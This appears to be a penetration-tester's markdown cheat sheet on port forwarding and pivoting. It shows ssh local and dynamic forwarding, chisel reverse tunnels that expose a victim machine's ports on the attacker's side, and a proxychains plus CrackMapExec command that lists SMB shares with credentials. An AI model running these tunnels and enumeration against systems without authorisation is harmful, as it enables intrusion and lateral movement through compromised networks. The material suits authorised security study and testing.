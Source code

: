 

# Port Forwarding & Tunneling
--------

### Local Portforward
- Forward a single port from our machine to the victim machine.
A web server running on victim machine's port 8888 can be accessed locally on our machine's port 4444
```bash
ssh -L 4444:2.2.2.2:8888 user@2.2.2.2
```

On a new line hold shift and type `~C` to drop into the ssh prompt
```bash
ssh> -L 8001:192.168.122.4:80
```

Using **chisel**
```bash
./chisel_linux server -p 8080 -reverse
```

```cmd
chis.exe client 192.168.49.197:8080 R:8001:127.0.0.1:80 
```

Client makes a connection to chisel server running on port 8080 and forwards localhost 80 on victim machine to remote 8081 (attacker 8081)

----------------------

### Dynamic Portforward
Forwarding all traffic from our machine to the victim using another compromised machine as tunnel. (using socks proxy)
For use w proxychains.

Using **ssh**
```bash
ssh -N -D 127.0.0.1:1080 sean@10.11.1.251
```

where 1080 is the IP address where socks5 proxy (proxychains) is running.

#### SOCKS5 + Chisel
- Set up  socks5 proxy in proxychains conf
Server:
```bash
./chisel_linux server -p 8080 -reverse
```

Client:
```cmd
.\chisel.exe client 10.10.10.10:8080 R:socks
```

Now use proxychains and cme to access shares:
```bash
proxychains cme smb 192.168.137.138 -u cbbn -p something --shares
```

https://blog.lukasec.ch/posts/pivoting.html

-------------


- [ ] include stuff from netsh!!!!!!
https://porterhau5.com/blog/native-port-forwarding-windows/

https://erev0s.com/blog/ssh-local-remote-and-dynamic-port-forwarding-explain-it-i-am-five/